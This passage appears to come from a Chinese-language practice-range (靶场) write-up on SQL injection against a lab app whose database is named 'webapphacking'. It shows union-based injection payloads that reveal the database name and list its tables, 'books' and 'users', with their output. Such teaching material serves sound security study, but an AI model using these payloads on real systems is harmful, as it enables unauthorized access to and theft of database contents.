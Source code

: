查看当前数据库

```
-1' union select database(),2,3#
```

得到当前数据库的名称为

```
webapphacking
```

![image-20220318110921205](靶场练习.assets/image-20220318110921205.png)

## 2.4 爆表

查看webapphacking库所有的表

```
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#
```

得到两个数据表

```
books
users
```

![image-20220318111101849](靶场练习.assets/image-20220318111101849.png)
